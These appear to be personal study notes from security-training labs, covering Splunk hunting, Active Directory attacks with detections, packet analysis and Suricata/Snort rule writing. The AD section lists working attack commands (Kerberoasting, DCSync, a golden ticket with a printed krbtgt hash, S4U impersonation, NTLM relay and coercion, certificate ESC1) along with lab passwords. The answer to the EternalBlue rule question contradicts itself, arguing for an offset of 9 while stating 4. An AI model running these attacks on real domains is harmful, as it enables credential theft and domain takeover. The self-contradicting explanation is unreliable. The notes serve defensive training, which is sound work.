index="main" sourcetype="WinEventLog:Sysmon" EventCode=1 | transaction ComputerName, Image | where mvcount(ProcessGuid) > 1 | stats count by Image, ParentImage
index="main" sourcetype="WinEventLog:Sysmon" EventCode=1 | transaction ComputerName, Image | where mvcount(ProcessGuid) > 1 | search Image="C:\\Windows\\System32\\rundll32.exe" ParentImage="C:\\Windows\\System32\\svchost.exe" | table CommandLine, ParentCommandLine
Q1:
index="main" sourcetype="WinEventLog:Sysmon" EventCode=8
| bin _time span=1h
| stats count as thread_injections by _time, SourceImage
| eventstats avg(thread_injections) as avg_injections, stdev(thread_injections) as stdev_injections
| eval upper_limit = avg_injections + (2 * stdev_injections)
| where thread_injections > upper_limit
| table _time, SourceImage, thread_injections, avg_injections, stdev_injections, upper_limit
| sort -thread_injections
Sysmon Event ID 8 - CreateRemoteThread: Potentially aids in identifying injected threads.
index="main" sourcetype="WinEventLog:Sysmon" EventCode=8 | bin _time span=1h
| stats count as thread_injections by _time, SourceImage

Skills Assessment
Q1: Navigate to http://[Target IP]:8000, open the "Search & Reporting" application, and find through SPL searches against all data the process that created remote threads in rundll32.exe. Answer format: _.exe
index="main" sourcetype="WinEventLog:Sysmon" EventCode=8 TargetImage="*rundll32.exe*" | stats count by SourceImage
randomfile.exe
Q2: Navigate to http://[Target IP]:8000, open the "Search & Reporting" application, and find through SPL searches against all data the process that started the infection. Answer format: _.exe
index="main" sourcetype="WinEventLog:Sysmon" EventCode=11 | search "*randomfile.exe*" | stats count by TargetFilename Image
Found C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe download randomfile.exe and file creation time is 11/06/2022 10:08:46 AM
rundll32.exe
Windows Attacks & Defense
Lab Environment
The attacks will be executed from the provided Windows 10 (WS001) and Kali Linux machines. The assumption is that an attacker has already gained remote code execution (of some sort) on that Windows 10 (WS001) machine. The user, which we assume is compromised, is Bob, a regular user in Active Directory with no special permissions assigned.
The environment consists of the following machines and their corresponding IP addresses:
DC1: 172.16.18.3
DC2: 172.16.18.4
Server01: 172.16.18.10
PKI: 172.16.18.15
WS001: DHCP or 172.16.18.25 (depending on the section)
Kali Linux: DHCP or 172.16.18.20 (depending on the section)
Connect to WS001 via RDP
xfreerdp /u:eagle\\bob /p:Slavi123 /v:TARGET_IP /dynamic-resolution
Connect to Kali via SSH
$ ssh kali@TARGET_IP
Password is kali
We have also enabled RDP on the Kali host. For sections with the Kali host as the primary target, it is recommended to connect with RDP.
xfreerdp /v:TARGET_IP /u:kali /p:kali /dynamic-resolution
Moving files between WS001 and your Linux attacking machine
To facilitate easy file transfer between the machines, we have created a shared folder on WS001, which can be accessed via SMB.
$ smbclient \\\\TARGET_IP\\Share -U eagle/administrator%Slavi123
Kerberoasting
.\Rubeus.exe kerberoast /outfile:spn.txt
Q2:
Remote Desktop Connection -> Event viewer -> Windows Logs -> Security -> Filter Current Log (Last Hour) -> Event ID 4769 (A Kerberos service ticket was requested) -> Find "webservice"

AS-REProasting
The success of this attack depends on the strength of the password of users with Do not require Kerberos preauthentication configured.
.\Rubeus.exe asreproast /outfile:asrep.txt
For hashcat to be able to recognize the hash, we need to edit it by adding 23$ after $krb5asrep$
$krb5asrep$23$anni@eagle.local:
sudo hashcat -m 18200 -a 0 hash.txt /usr/share/wordlists/rockyou.txt --outfile asrepcrack.txt --force
Event ID 4768(S, F): A Kerberos authentication ticket (TGT) was requested.
GPP Passwords (Group Policy Preferences)
SYSVOL is a network share on all Domain Controllers, containing logon scripts, group policy data, and other required domain-wide data. AD stores all group policies in \\<DOMAIN>\SYSVOL\<DOMAIN>\Policies\.
powershell -ep bypass
Import-Module .\Get-GPPPassword.ps1
Get-GPPPassword
Prevention: For auditing, we can generate an event whenever a user reads the XML file containing the credentials.
Event ID 4663: An attempt was made to access an object.
GPO Permissions/GPO Files
Prevention
One way to prevent this attack is to lock down the GPO permissions to be modified by a particular group of users only or by a specific account, as this will significantly limit the ability of who can edit the GPO or change its permissions (as opposed to everybody in Domain admins, which in some organizations can easily be more than 50). Similarly, never deploy files stored in network locations so that many users can modify the share permissions.
We should also review the permissions of GPOs actively and regularly, with the option of automating a task that runs hourly and alerts if any deviations from the expected permissions are detected.
Event ID 5136(S) A directory service object was modified.
-
GPO is linked to non-critical servers only.
-
Continuous automation is in place for monitoring modifications of GPO. - - If the GPO file is modified, we will disable the user performing the modification immediately.
-
The GPO should be automatically unlinked from all locations if a modification is detected.
# Define filter for the last 15 minutes
$TimeSpan = (Get-Date) - (New-TimeSpan -Minutes 15)
# Search for event ID 5136 (GPO modified) in the past 15 minutes
$Logs = Get-WinEvent -FilterHashtable @{LogName='Security';id=5136;StartTime=$TimeSpan} -ErrorAction SilentlyContinue |`
Where-Object {$_.Properties[8].Value -match "CN={73C66DBB-81DA-44D8-BDEF-20BA2C27056D},CN=POLICIES,CN=SYSTEM,DC=EAGLE,DC=LOCAL"}
if($Logs){
$emailBody = "Honeypot GPO '73C66DBB-81DA-44D8-BDEF-20BA2C27056D' was modified`r`n"
$disabledUsers = @()
ForEach($log in $logs){
If(((Get-ADUser -identity $log.Properties[3].Value).Enabled -eq $true) -and ($log.Properties[3].Value -notin $disabledUsers)){
Disable-ADAccount -Identity $log.Properties[3].Value
$emailBody = $emailBody + "Disabled user " + $log.Properties[3].Value + "`r`n"
$disabledUsers += $log.Properties[3].Value
}
}
# Send an alert via email - complete the command below
# Send-MailMessage
$emailBody
}
Event ID 4725 is a security event that is logged in Active Directory when a user or computer object is disabled.
Credentials in Shares
powershell -ep bypass
Import-Module .\PowerView.ps1
Invoke-ShareFinder -domain eagle.local -ExcludeStandard -CheckShareAccess

\\Server01.eagle.local\dev$
findstr command:
/s forces to search the current directory and all subdirectories
/i ignores case in the search term
/m shows only the filename for a file that matches the term. We highly need this in real production environments because of the huge amounts of text that get returned. For example, this can be thousands of lines in PowerShell scripts that contain the PassThru parameter when matching for the string pass.
The term that defines what we are looking for. Good candidates include pass, pw, and the NETBIOS name of the domain. In the playground environment, it is eagle. Attractive targets for this search would be file types such as .bat, .cmd, .ps1, .conf, .config, and .ini.
cd \\Server01.eagle.local\dev$
# find password in files
findstr /m /s /i "pass" *.bat
findstr /m /s /i "pass" *.cmd
findstr /m /s /i "pass" *.ini
findstr /m /s /i "pass" *.config
findstr /m /s /i "pw" *.config
findstr /s /i "pw" *.config
findstr /m /s /i "eagle" *.ps1
findstr /s /i "eagle" *.ps1
Event IDs 4624/4625 (successful and failed logon) and 4768 (Kerberos TGT requested)
Q1:
findstr /s /i "Administrator2" *.ps1
Credentials in Object Properties
Function SearchUserClearTextInformation
{
Param (
[Parameter(Mandatory=$true)]
[Array] $Terms,
[Parameter(Mandatory=$false)]
[String] $Domain
)
if ([string]::IsNullOrEmpty($Domain)) {
$dc = (Get-ADDomain).RIDMaster
} else {
$dc = (Get-ADDomain $Domain).RIDMaster
}
$list = @()
foreach ($t in $Terms)
{
$list += "(`$_.Description -like `"*$t*`")"
$list += "(`$_.Info -like `"*$t*`")"
}
Get-ADUser -Filter * -Server $dc -Properties Enabled,Description,Info,PasswordNeverExpires,PasswordLastSet |
Where { Invoke-Expression ($list -join ' -OR ') } |
Select SamAccountName,Enabled,Description,Info,PasswordNeverExpires,PasswordLastSet |
fl
}
Import-Module .\SearchUserClearTextInformation.ps1
SearchUserClearTextInformation -Terms "pass"

DC1 (172.16.18.3)
Event ID 4771(F) Kerberos pre-authentication failed.
Event ID 4776(S, F): The computer attempted to validate the credentials for an account.
DCSync
DCSync is an attack that threat agents utilize to impersonate a Domain Controller and perform replication with a targeted Domain Controller to extract password hashes from Active Directory. The attack can be performed both from the perspective of a user account or a computer, as long as they have the necessary permissions assigned, which are:
-
Replicating Directory Changes
-
Replicating Directory Changes All
runas /user:eagle\rocky cmd.exe
C:\Mimikatz>mimikatz.exe
mimikatz # lsadump::dcsync /domain:eagle.local /user:Administrator
Prevention
The only prevention technique against this attack is using solutions such as the RPC Firewall, a third-party product that can block or allow specific RPC calls with robust granularity. For example, using RPC Firewall, we can only allow replications from Domain Controllers.
Event ID 4662(S, F) An operation was performed on an object.
Golden Ticket
The Kerberos Golden Ticket is an attack in which threat agents can create/generate tickets for any user in the Domain, therefore effectively acting as a Domain Controller.
To perform the Golden Ticket attack, we can use Mimikatz with the following arguments:
/domain: The domain's name.
/sid: The domain's SID value.
/rc4: The password's hash of krbtgt.
/user: The username for which Mimikatz will issue the ticket (Windows 2019 blocks tickets if they are for inexistent users.)
/id: Relative ID (last part of SID) for the user for whom Mimikatz will issue the ticket.
Additionally, advanced threat agents mostly will specify values for the /renewmax and /endin arguments, as otherwise, Mimikatz will generate the ticket(s) with a lifetime of 10 years, making it very easy to detect by EDRs:
/renewmax: The maximum number of days the ticket can be renewed.
/endin: End-of-life for the ticket.
First, we need to obtain the password's hash of krbtgt and the SID value of the Domain. We can utilize DCSync with Rocky's account from the previous attack to obtain the hash:
runas /user:eagle\rocky cmd.exe
mimikatz # lsadump::dcsync /domain:eagle.local /user:krbtgt
Hash NTLM: db0d0630064747072a7da3f7c3b4069e
# bob user
powershell -exec bypass
. .\PowerView.ps1
Get-DomainSID
S-1-5-21-1518138621-4282902758-752445584
# rocky
# mimikatz
kerberos::golden /domain:eagle.local /sid:S-1-5-21-1518138621-4282902758-752445584 /rc4:db0d0630064747072a7da3f7c3b4069e /user:Administrator /id:500 /renewmax:7 /endin:8 /ptt
exit
klist
dir \\dc1\c$

Event ID 4675(S) SIDs were filtered. - Windows 10
Kerberos Constrained Delegation
Kerberos Delegation enables an application to access resources hosted on a different server.
powershell -ep bypass
Import-Module .\PowerView-main.ps1
Get-NetUser -TrustedToAuth
.\Rubeus.exe hash /password:Slavi123
# S4U (Service For User)
.\Rubeus.exe s4u /user:webservice /rc4:FCDC65703DD2B0BD789977F1F3EEAECF /domain:eagle.local /impersonateuser:Administrator /msdsspn:"http/dc1" /dc:dc1.eagle.local /ptt
klist
# With the ticket being available, we can connect to the Domain Controller impersonating the account Administrator:
Enter-PSSession dc1
hostname
Print Spooler & NTLM Relaying
The Print Spooler is an old service enabled by default, even with the latest Windows Desktop and Servers versions. The service became a popular attack vector when in 2018, Lee Christensen found the PrinterBug. The functions RpcRemoteFindFirstPrinterChangeNotification and RpcRemoteFindFirstPrinterChangeNotificationEx can be abused to force a remote machine to perform a connection to any other machine it can reach. Moreover, the reverse connection will carry authentication information as a TGT. Therefore, any domain user can coerce RemoteServer$ to authenticate to any machine. Microsoft's stance on the PrinterBug was that it will not be fixed, as the issue is "by-design".
# configure NTLMRelayx to forward any connections to DC2 and attempt to perform the DCSync attack
# connect to the Kali machine
$ xfreerdp /u:kali /p:kali /v:10.129.246.71 /dynamic-resolution
$ impacket-ntlmrelayx -t dcsync://172.16.18.4 -smb2support
$ python3 ./dementor.py 172.16.18.20 172.16.18.3 -u bob -d eagle.local -p Slavi123
$ xfreerdp /u:htb-student /p:'HTB_@cademy_stdnt!' /v:172.16.18.3 /dynamic-resolution
Prevention
Print Spooler should be disabled on all servers that are not printing servers. Domain Controllers and other core servers should never have additional roles/functionalities that open and widen the attack surface toward the core AD infrastructure.
Additionally, there is an option to prevent the abuse of the PrinterBug while keeping the service running: when disabling the registry key RegisterSpoolerRemoteRpcEndPoint, any incoming remote requests get blocked; this acts as if the service was disabled for remote clients. Setting the registry key to 1 enables it, while 2 disables it:

Q2:

Coercing Attacks & Unconstrained Delegation
# powerview
Get-NetComputer -Unconstrained | select samaccountname
#start Rubeus in an administrative prompt to monitor for new logons and extract TGTs
.\Rubeus.exe monitor /interval:1
# switch to the Kali machine to execute Coercer towards DC1, while we force it to connect to WS001 if coercing is successful
$ Coercer -u bob -p Slavi123 -d eagle.local -l ws001.eagle.local -t dc1.eagle.local
.\Rubeus.exe ptt /ticket:doIFdDCCBXCgAwIBBa...
.\mimikatz.exe "lsadump::dcsync /domain:eagle.local /user:Administrator"
Object ACLs
.\SharpHound.exe -c All
Event ID 4738(S) A user account was changed. - Windows 10
Event ID 4724 indicates an attempt to reset another account's password
Event ID 4742(S) A computer account was changed. - Windows 10
PKI - ESC1
.\Certify.exe find /vulnerable
# the certificate expires after several minutes
.\Certify.exe request /ca:PKI.eagle.local\eagle-PKI-CA /template:UserCert /altname:Administrator
# avoid bad formatting of the PEM file
$ sed -i 's/\s\s\+/\n/g' cert.pem
$ openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
.\Rubeus.exe asktgt /domain:eagle.local /user:Administrator /certificate:cert.pfx /dc:dc1.eagle.local /ptt
Intro to Network Traffic Analysis
OSI / TCP-IP Models
Protocol Data Units (PDU)

PDU Packet Breakdown
Tcpdump Fundamentals
| Switch Command | Result |
|---|---|
| D | Will display any interfaces available to capture from. |
| i | Selects an interface to capture from. ex. -i eth0 |
| n | Do not resolve hostnames. |
| nn | Do not resolve hostnames or well-known ports. |
| e | Will grab the ethernet header along with upper-layer data. |
| X | Show Contents of packets in hex and ASCII. |
| XX | Same as X, but will also specify ethernet headers. (like using Xe) |
| v, vv, vvv | Increase the verbosity of output shown and saved. |
| c | Grab a specific number of packets, then quit the program. |
| s | Defines how much of a packet to grab. |
| S | change relative sequence numbers in the capture display to absolute sequence numbers. (13248765839 instead of 101) |
| q | Print less protocol information. |
| r file.pcap | Read from a file. |
| w file.pcap | Write into a file. |
# Listing Available Interfaces
$ sudo tcpdump -D
# Choosing an Interface to Capture From
$ sudo tcpdump -i eth0
# Disable Name Resolution
$ sudo tcpdump -i eth0 -nn
# Display the Ethernet Header
$ sudo tcpdump -i eth0 -e
# Include ASCII and Hex Output
$ sudo tcpdump -i eth0 -X
# Tcpdump Switch Combinations
$ sudo tcpdump -i eth0 -nnvXX
# Save our PCAP Output to a File
$ sudo tcpdump -i eth0 -w ~/output.pcap
# Reading Output From a File
$ sudo tcpdump -r ~/output.pcap
Tcpdump Packet Filtering
| Filter | Result |
|---|---|
| host | host will filter visible traffic to show anything involving the designated host. Bi-directional |
| src / dest | src and dest are modifiers. We can use them to designate a source or destination host or port. |
| net | net will show us any traffic sourcing from or destined to the network designated. It uses / notation. |
| proto | will filter for a specific protocol type. (ether, TCP, UDP, and ICMP as examples) |
| port | port is bi-directional. It will show any traffic with the specified port as the source or destination. |
| portrange | portrange allows us to specify a range of ports. (0-1024) |
| less / greater "< >" | less and greater can be used to look for a packet or protocol option of a specific size. |
| and / && | and && can be used to concatenate two different filters together. for example, src host AND port. |
| or | or allows for a match on either of two conditions. It does not have to meet both. It can be tricky. |
| not | not is a modifier saying anything but x. For example, not UDP. |
# Host Filter
$ sudo tcpdump -i eth0 host 172.16.146.2
# Source/Destination Filter
$ sudo tcpdump -i eth0 src host 172.16.146.2
# Utilizing Source With Port as a Filter
$ sudo tcpdump -i eth0 tcp src port 80
# Using Destination in Combination with the Net Filter
$ sudo tcpdump -i eth0 dest net 172.16.146.0/24
# Protocol Filter - Common Name
$ sudo tcpdump -i eth0 udp
# Protocol Filter - Number
# Protocol 17 is the User Datagram Protocol (UDP).
$ sudo tcpdump -i eth0 proto 17
# Port Filter
$ sudo tcpdump -i eth0 tcp port 443
# Port Range Filter
$ sudo tcpdump -i eth0 portrange 0-1024
# Less/Greater Filter
$ sudo tcpdump -i eth0 less 64
# Utilizing Greater
$ sudo tcpdump -i eth0 greater 500
# AND Filter
$ sudo tcpdump -i eth0 host 192.168.0.1 and port 23
# OR Filter
$ sudo tcpdump -r sus.pcap icmp or host 172.16.146.1
# NOT Filter
$ sudo tcpdump -r sus.pcap not icmp
Tips and Tricks
# -A will show only the ASCII text
$ sudo tcpdump -Ar telnet.pcap
# Piping a Capture to Grep
# used the -l to pass the output to grep
$ sudo tcpdump -Ar http.cap -l | grep 'mailto:*'
# Looking for TCP Protocol Flags
$ tcpdump -i eth0 'tcp[13] &2 != 0'
# Hunting For a SYN Flag
$ sudo tcpdump -i eth0 'tcp[13] &2 != 0'
Wireshark
# filter commands
ftp
ftp.request.command
# ftp-data - Will show any data transferred over the data channel ( port 20 )
ftp-data
Intermediate Network Traffic Analysis
$ wget -O file.zip 'https://academy.hackthebox.com/storage/resources/pcap_files.zip' && mkdir tempdir && unzip file.zip -d tempdir && mkdir -p pcaps && mv tempdir/Intermediate_Network_Traffic_Analysis/* pcaps/ && rm -r tempdir file.zip
ARP Spoofing & Abnormality Detection
Address Resolution Protocol (ARP)
arp.opcode == 1: This represents all types of ARP Requests
arp.opcode == 2: This signifies all types of ARP Replies
arp.duplicate-address-detected && arp.opcode == 2
arp.duplicate-address-detected or arp.duplicate-address-frame
(arp.opcode) && ((eth.src == 08:00:27:53:0c:ba) || (eth.dst == 08:00:27:53:0c:ba))
arp.opcode==1 && eth.src==08:00:27:53:0c:ba
ARP Scanning & Denial-of-Service
Some typical red flags indicative of ARP scanning are:
-
Broadcast ARP requests sent to sequential IP addresses (.1,.2,.3,...)
-
Broadcast ARP requests sent to non-existent hosts
-
Potentially, an unusual volume of ARP traffic originating from a malicious or compromised host
802.11 Denial of Service
Wireless Interfaces
iwconfig
Airmon-NG
sudo airmon-ng start wlan0
Monitor Mode
$ sudo ifconfig wlan0 down
$ sudo iwconfig wlan0 mode monitor
$ sudo ifconfig wlan0 up
$ iwconfig
To commence capturing traffic from our clients and network, we can employ airodump-ng. We need to specify our AP's channel with -c, its BSSID with --bssid, and the output file name with -w.
$ sudo airodump-ng -c 4 --bssid F8:14:FE:4D:E6:F1 wlan0 -w raw
How Deauthentication Attacks Work
-
To capture the WPA handshake to perform an offline dictionary attack
-
To cause general denial of service conditions
-
To enforce users to disconnect from our network, and potentially join their network to retrieve information
Finding Deauthentication Attacks
wlan.bssid == xx:xx:xx:xx:xx:xx
specify the type of frame (management) with 00 and the subtype (deauthentication) with 12
(wlan.bssid == xx:xx:xx:xx:xx:xx) and (wlan.fc.type == 00) and (wlan.fc.type_subtype == 12)
(wlan.bssid == F8:14:FE:4D:E6:F1) and (wlan.fc.type == 00) and (wlan.fc.type_subtype == 12) and (wlan.fixed.reason_code == 7)
(wlan.bssid == F8:14:FE:4D:E6:F1) and (wlan.fc.type == 00) and (wlan.fc.type_subtype == 12) and (wlan.fixed.reason_code == 1)
Q: Inspect the deauthandbadauth.cap file, part of this module's resources, and submit the total count of deauthentication frames as your answer.
wlan.bssid == F8:14:FE:4D:E6:F1 and wlan.fc.type_subtype == 12
Rogue Access Point & Evil-Twin Attacks
Airodump-ng Detection
$ sudo airodump-ng -c 4 --essid HTB-Wireless wlan0 -w raw
(wlan.fc.type == 00) and (wlan.fc.type_subtype == 8)
Finding a Fallen User
(wlan.bssid == F8:14:FE:4D:E6:F2)
Q:

Fragmentation Attacks
Q: Inspect the nmap_frag_fw_bypass.pcapng file, part of this module's resources, and enter the total count of packets that have the TCP RST flag set as your answer.
tcp.flags.reset==1
TCP Handshake Abnormalities
Q: Inspect the nmap_syn_scan.pcapng file, part of this module's resources, and enter the total count of packets that have the TCP ACK flag set as your answer.
tcp.flags.ack==1
HTTP/HTTPs Service Enumeration
$ cat access.log | grep "192.168.10.5"
$ cat access.log | awk '$1 == "192.168.10.5"'
http.request and ((ip.src_host == <suspected IP>) or (ip.dst_host == <suspected IP>))
Q: Inspect the basic_fuzzing.pcapng file, part of this module's resources, and enter the total number of HTTP packets that are related to GET requests against port 80 as your answer.
http.request.method==GET && tcp.dstport == 80
Strange HTTP Headers
http.request and (!(http.host == "192.168.10.7"))
http.response.code == 400
SSL Renegotiation Attacks
# The content type 22 specifies handshake messages only
ssl.record.content_type == 22
Q: Inspect the SSL_renegotiation_edited.pcapng file, part of this module's resources, and enter the total count of "Client Hello" requests as your answer.
tls.handshake.type == 1
Strange Telnet & UDP Connections
((ipv6.src_host == fe80::c9c8:ed3:1b10:f10b) or (ipv6.dst_host == fe80::c9c8:ed3:1b10:f10b)) and telnet
Working with IDS/IPS
Suricata
Suricata Operation Modes
-
The Intrusion Detection System (IDS) mode positions Suricata as a silent observer.
-
In the Intrusion Prevention System (IPS) mode, Suricata adopts a proactive stance.
-
The Intrusion Detection Prevention System (IDPS) mode brings together the best of both IDS and IPS.
-
In its Network Security Monitoring (NSM) mode, Suricata transitions into a dedicated logging mechanism, eschewing active or passive traffic analysis or prevention capabilities.
Configuring Suricata & Custom Rules
$ ls -lah /etc/suricata/rules/
$ more /etc/suricata/rules/emerging-malware.rules
$ more /etc/suricata/suricata.yaml
$ sudo vim /etc/suricata/suricata.yaml
$ suricata -r /home/htb-student/pcaps/suspicious.pcap
# bypass checksums (-k flag) and log in a different directory (-l flag)
$ suricata -r /home/htb-student/pcaps/suspicious.pcap -k none -l .
# For live input, we can try Suricatas (Live) LibPCAP mode as follows
$ ifconfig
# ens160 is an interface number like eth0
$ sudo suricata --pcap=ens160 -vv
# For Suricata in Inline (NFQ) mode, the following command should be executed first.
$ sudo iptables -I FORWARD -j NFQUEUE
$ sudo suricata -q 0
# try Suricata in IDS mode with AF_PACKET input, execute one of the below.
$ sudo suricata -i ens160
$ sudo suricata --af-packet=ens160
# utilize tcpreplay to replay network traffic from a PCAP file (suspicious.pcap in this case)
$ sudo tcpreplay -i ens160 /home/htb-student/pcaps/suspicious.pcap
Suricata Outputs
$ less /var/log/suricata/old_eve.json
$ cat /var/log/suricata/old_eve.json | jq -c 'select(.event_type == "alert")'
$ cat /var/log/suricata/old_eve.json | jq -c 'select(.event_type == "dns")' | head -1 | jq .
$ cat /var/log/suricata/old_fast.log
$ cat /var/log/suricata/old_stats.log
File Extraction
# rules
alert http any any -> any any (msg:"FILE store all"; filestore; sid:2; rev:1;)
Live Rule Reloading Feature & Updating Suricata Rulesets
$ sudo kill -usr2 $(pidof suricata)
$ sudo suricata-update
$ sudo suricata-update list-sources
$ sudo suricata-update enable-source et/open
$ sudo suricata-update
$ sudo systemctl restart suricata
Validating Suricata's Configuration
$ sudo suricata -T -c /etc/suricata/suricata.yaml
Q1: Filter out only HTTP events from /var/log/suricata/old_eve.json using the the jq command-line JSON processor. Enter the flow_id that you will come across as your answer.
$ cat /var/log/suricata/old_eve.json | jq -c 'select(.event_type == "http")'
Q2: Enable the http-log output in suricata.yaml and run Suricata against /home/htb-student/pcaps/suspicious.pcap. Enter the requested PHP page as your answer. Answer format: _.php
$ sudo vim /etc/suricata/suricata.yaml
/http-log
enable: yes
:wq
$ suricata -r /home/htb-student/pcaps/suspicious.pcap -k none -l .
$ cat /var/log/suricata/old_eve.json | jq -c 'select(.event_type == "http")' | tail -1 | jq .
# OR
$ find /var/log/suricata -type f -exec cat {} \; | grep -arin -o -E '(\w+\W+){0,5}php(\W+\w+){0,5}' .
app.php
Suricata Rule Development Part 1
action protocol from_ip port -> to_ip port (msg:"Known malicious behavior, possible X malware infection"; content:"some thing"; content:"some other thing"; sid:10000001; rev:1;)
Example: alert http any any -> $HOME_NET any (msg: "ATTACK [PTsecurity] Apache Continuum <= v1.4.2 CMD Injection"; content: "POST"; http_method; content: "/continuum/saveInstallation.action"; offset: 0; depth: 34; http_uri; content: "installation.varValue="; nocase; http_client_body; pcre: !"/^\$?[\sa-z\\_0-9.-]*(\&|$)/iRP"; flow: to_server, established;sid: 10000048; rev: 1;)
$ xfreerdp /u:htb-student /p:'HTB_@cademy_stdnt!' /v:10.129.173.128 /dynamic-resolution /relax-order-checks +glyph-cache
`
# Suricata Rule Development Example 1: Detecting PowerShell Empire
alert http $HOME_NET any -> $EXTERNAL_NET any (msg:"ET MALWARE Possible PowerShell Empire Activity Outbound"; flow:established,to_server; content:"GET"; http_method; content:"/"; http_uri; depth:1; pcre:"/^(?:login\/process|admin\/get|news)\.php$/RU"; content:"session="; http_cookie; pcre:"/^(?:[A-Z0-9+/]{4})*(?:[A-Z0-9+/]{2}==|[A-Z0-9+/]{3}=|[A-Z0-9+/]{4})$/CRi"; content:"Mozilla|2f|5.0|20 28|Windows|20|NT|20|6.1"; http_user_agent; http_start; content:".php|20|HTTP|2f|1.1|0d 0a|Cookie|3a 20|session="; fast_pattern; http_header_names; content:!"Referer"; content:!"Cache"; content:!"Accept"; sid:2027512; rev:1;)
$ sudo suricata -r /home/htb-student/pcaps/psempire.pcap -l . -k none
$ cat fast.log
# Suricata Rule Development Example 2: Detecting Covenant
alert tcp any any -> $HOME_NET any (msg:"detected by body"; content:"<title>Hello World!</title>"; detection_filter: track by_src, count 4 , seconds 10; priority:1; sid:3000011;)
$ sudo suricata -r /home/htb-student/pcaps/covenant.pcap -l . -k none
$ cat fast.log
# Suricata Rule Development Example 3: Detecting Covenant (Using Analytics)
alert tcp $HOME_NET any -> any any (msg:"detected by size and counter"; dsize:312; detection_filter: track by_src, count 3 , seconds 10; priority:1; sid:3000001;)
$ sudo suricata -r /home/htb-student/pcaps/covenant.pcap -l . -k none
$ cat fast.log
# Suricata Rule Development Example 4: Detecting Sliver
alert tcp any any -> any any (msg:"Sliver C2 Implant Detected"; content:"POST"; pcre:"/\/(php|api|upload|actions|rest|v1|oauth2callback|authenticate|oauth2|oauth|auth|database|db|namespaces)(.*?)((login|signin|api|samples|rpc|index|admin|register|sign-up)\.php)\?[a-z_]{1,2}=[a-z0-9]{1,10}/i"; sid:1000007; rev:1;)
$ sudo suricata -r /home/htb-student/pcaps/sliver.pcap -l . -k none
$ cat fast.log
alert tcp any any -> any any (msg:"Sliver C2 Implant Detected - Cookie"; content:"Set-Cookie"; pcre:"/(PHPSESSID|SID|SSID|APISID|csrf-state|AWSALBCORS)\=[a-z0-9]{32}\;/"; sid:1000003; rev:1;)
Q: In the /home/htb-student directory of this section's target, there is a file called local.rules. Within this file, there is a rule with sid 2024217, which is associated with the MS17-010 exploit. Additionally, there is a PCAP file named eternalblue.pcap in the /home/htb-student/pcaps directory, which contains network traffic related to MS17-010. What is the minimum offset value that can be set to trigger an alert?
The minimum offset value that can be set to trigger an alert in the Suricata rule provided is 4. Heres an explanation of why:
In Suricata rules, the offset keyword specifies the byte offset within the packet payload where the search for the specified content begins.
Lets break down the relevant part of the rule:
content:"|ff|SMB|33 00 00 00 00 18 07 c0 00 00 00 00 00 00 00 00 00 00 00 00 08 ff fe 00 08|";
offset:9;
content:"|ff|SMB|33 00 00 00 00 18 07 c0 00 00 00 00 00 00 00 00 00 00 00 00 08 ff fe 00 08|"; specifies the hex bytes of the pattern to match in the payload.
offset:9; means that the search for this pattern starts at byte offset 9 within the payload.
The reason the minimum offset value that can trigger the alert is 4 lies in the details of how the rule is constructed:
The content part is a hexadecimal string representing a specific pattern related to the MS17-010 exploit.
The offset value of 9 means that the matching starts 9 bytes into the payload.
However, the content to match starts with the byte ff.
If the offset value were set to 8 or lower, it would not find the ff byte at the correct position to match the pattern specified in the rule.
Therefore, the minimum offset that correctly aligns with the beginning of the pattern in the payload is 9.
To clarify further:
Offset 8 would start just before the ff byte, which is not the start of the pattern.
Offset 9 starts at the ff byte, which is correct for the pattern matching to work.
Thus, the correct minimum offset value that allows the rule to correctly detect the pattern associated with the MS17010 exploit is 4.
# enable the rule of externalblue
$ vim local.rules
# Add /home/htb-student/local.rules to rule-files
$ sudo vim /etc/suricata/suricata.yaml
$ sudo suricata -r /home/htb-student/pcaps/eternalblue.pcap -l . -k none
$ cat fast.log
# when change the offset value to 4, the fast.log starts having content
# Suricata Rule Development Example 5: Detecting Dridex (TLS Encrypted)
alert tls $EXTERNAL_NET any -> $HOME_NET any (msg:"ET MALWARE ABUSE.CH SSL Blacklist Malicious SSL certificate detected (Dridex)"; flow:established,from_server; content:"|16|"; content:"|0b|"; within:8; byte_test:3,<,1200,0,relative; content:"|03 02 01 02 02 09 00|"; fast_pattern; content:"|30 09 06 03 55 04 06 13 02|"; distance:0; pcre:"/^[A-Z]{2}/R"; content:"|55 04 07|"; distance:0; content:"|55 04 0a|"; distance:0; pcre:"/^.{2}[A-Z][a-z]{3,}\s(?:[A-Z][a-z]{3,}\s)?(?:[A-Z](?:[A-Za-z]{0,4}?[A-Z]|(?:\.[A-Za-z]){1,3})|[A-Z]?[a-z]+|[a-z](?:\.[A-Za-z]){1,3})\.?[01]/Rs"; content:"|55 04 03|"; distance:0; byte_test:1,>,13,1,relative; content:!"www."; distance:2; within:4; pcre:"/^.{2}(?P<CN>(?:(?:\d?[A-Z]?|[A-Z]?\d?)(?:[a-z]{3,20}|[a-z]{3,6}[0-9_][a-z]{3,6})\.){0,2}?(?:\d?[A-Z]?|[A-Z]?\d?)[a-z]{3,}(?:[0-9_-][a-z]{3,})?\.(?!com|org|net|tv)[a-z]{2,9})[01].*?(?P=CN)[01]/Rs"; content:!"|2a 86 48 86 f7 0d 01 09 01|"; content:!"GoDaddy"; sid:2023476; rev:5;)
# Suricata Rule Development Example 6: Detecting Sliver (TLS Encrypted)
alert tls any any -> any any (msg:"Sliver C2 SSL"; ja3.hash; content:"473cd7cb9faa642487833865d516e578"; sid:1002; rev:1;)
$ ja3 -a --json /home/htb-student/pcaps/sliverenc.pcap
$ sudo suricata -r /home/htb-student/pcaps/sliverenc.pcap -l . -k none
$ cat fast.log
Q: There is a file named trickbot.pcap in the /home/htb-student/pcaps directory, which contains network traffic related to a certain variation of the Trickbot malware. Enter the precise string that should be specified in the content keyword of the rule with sid 100299 within the local.rules file so that an alert is triggered as your answer.
$ ja3 -a --json /home/htb-student/pcaps/trickbot.pcap
$ vim local.rules
alert tls any any -> any any (msg:"Trickbot C2 SSL"; ja3.hash; content:"72a589da586844d7f0818ce684948eea"; sid:100299; rev:1;)
$ sudo suricata -r /home/htb-student/pcaps/trickbot.pcap -l . -k none
$ cat fast.log
Snort
Reading from a pcap file with the -r option or listening on an interface with -i will cause Snort to run in passive mode by default. If the DAQ supports inline, however, then users can specify the -Q flag to run Snort inline.
Default configuration files, namely snort.lua and snort_defaults.lua
$ sudo more /root/snorty/etc/snort/snort.lua
$ snort --help-modules
